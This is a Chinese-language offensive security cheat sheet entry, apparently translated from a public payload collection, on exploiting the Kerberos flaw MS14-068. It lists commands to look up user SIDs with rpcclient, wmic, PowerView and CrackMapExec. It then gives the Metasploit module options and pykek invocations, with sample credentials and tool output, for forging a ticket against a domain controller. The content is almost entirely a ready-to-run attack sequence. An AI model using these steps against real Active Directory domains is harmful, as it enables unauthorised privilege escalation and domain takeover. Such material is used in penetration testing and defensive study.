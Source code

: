 ### MS14-068 校验和验证

此漏洞利用需要知道用户的SID，你可以使用`rpcclient`远程获取它，或者如果你有权限访问机器，可以使用`wmi`。

* RPCClient

  ```powershell
  rpcclient $> lookupnames john.smith
  john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
  ```

* WMI

  ```powershell
  wmic useraccount get name,sid
  Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
  Guest          S-1-5-21-3415849876-833628785-5197346142-501   
  Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
  Guest          S-1-5-21-297520375-2634728305-5197346142-501   
  krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
  lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
  ```

* Powerview

  ```powershell
  Convert-NameToSid high-sec-corp.localkrbtgt
  S-1-5-21-2941561648-383941485-1389968811-502
  ```

* CrackMapExec: `crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid`  

```bash
文档: https://github.com/gentilkiwi/kekeo/wiki/ms14068
```

使用`metasploit`或`pykek`生成票据

```powershell
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   名称      当前设置                                必需  描述
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                是       域（大写）例如：DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       是       域用户密码
   RHOSTS    10.10.10.10                                    是       目标地址范围或CIDR标识符
   RPORT     88                                             是       目标端口
   超时       10                                             是       建立连接和读取数据的TCP超时
   用户名      lambda                                         是       域用户
   用户SID  S-1-5-21-297520375-2634728305-5197346142-1106  是       域用户SID，例如：S-1-5-21-1755879683-3641577184-3486455962-1000
```

```powershell
# 另一种下载方式：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek
$ git clone https://github.com/SecWiki/windows-kernel-exploits
$ python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
$ python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
$ python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
$ python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066
-1105
  [+] 构建AS-REQ到msfdc01.metasploitable.local... 完成！
  [+] 发送AS-REQ到msfdc01.metasploitable.local... 完成！
  [+] 从msfdc01.metasploitable.local接收AS-REP... 完成！
  [+] 解析来自msfdc01.metasploitable.local的AS-REP... 完成！
  [+] 为msfdc01.metasploitable.local构建TGS-REQ... 完成！
  [+] 发送TGS-REQ到msfdc01.metasploitable.local... 完成！
```